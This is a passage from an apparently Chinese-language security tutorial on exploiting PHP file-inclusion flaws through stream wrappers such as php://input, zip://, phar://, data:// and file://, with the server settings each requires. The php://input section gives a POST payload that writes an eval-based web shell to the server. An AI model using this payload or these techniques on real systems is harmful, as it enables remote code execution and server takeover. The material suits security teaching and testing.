 ### 3.2.2 php://input  
`php://input` 可以获取 HTTP POST 请求的数据。可以通过 HTTP POST 请求提交恶意代码，然后通过该伪协议读取并执行。  
**利用方法：**  
在存在文件包含漏洞处，直接添加 php://input，然后再 post 数据包中输入恶意代码。  
```PHP  
url：http://example.com/page.php?url=php://input  
  
post data：  
<?php fputs(fopen("shell.php", "w"), "<?php eval(\$_POST['a']);?>") ?>  
```  
**特点：**  
- 需要开启`allow_url_include`  
- 如果使用了：`enctype="multipart/form-data"`，此伪协议无效。  

### 3.2.3 zip://、bzip://、zlib://  
这三个伪协议分别可以用于读取 zip、bzip2、zlib 格式的压缩文件。  
```PHP  
zip://archive.zip#file.txt  
  
bzip://archive.bz2#file.txt  
  
zlib://archive.gz#file.txt  
```  
- `archive`是不同格式的压缩文件  
- `file.txt` 是压缩文件内的子文件名。同时可用 php 文件包含的特性，只要文件内有符合 PHP 语法的代码就会执行。  
- 上述所有的压缩文件都需要使用**绝对路径**  
- 如果使用浏览器进行访问，需要将 `#` 通过**url 编码**进行转移，结果为 `%23`  
**特点：**  
- 需要开启`allow_url_fopen`  

### 3.2.4 phar://  
协议是 PHP 的一个内置封存协议，用于在 PHP 中访问 Phar（PHP Archive）文件，它可以访问 Phar 文件中的内容，如类、函数、静态资源、配置文件等。  
但是对于文件包含漏洞中，使用方法和压缩协议类似。  
```PHP  
phar://archive.zip/file.txt  
```  
- 压缩文件可以使用绝对路径或者相对路径  
**特点：**  
- PHP版本大于`5.3`  
- 无需依赖`allow_url_fopen`和`allow_url_include`  

### 3.2.5 data://  
可以将数据转换为流的伪协议，常用于将内存中的数据作为文件来处理，常见于图像、音频等二进制数据的处理。  
```PHP  
data://text/plain;base64,<base64-code>  
```  
使用 base64 编码，将恶意代码传入。恶意代码内容也可以是具备恶意代码的文件。或者，获取服务器的某个文件内容。  
**特点：**  
- 需要开启`allow_url_fopen`和`allow_url_include`  

### 3.2.6 file://  
用于在文件系统中读取文件，只能在本地文件系统中使用。可以使用绝对路径或者相对路径。  
```PHP  
file://<file-path>/<file-name>  
```  
**特点：**  
- 无需依赖`allow_url_fopen`和`allow_url_include`  
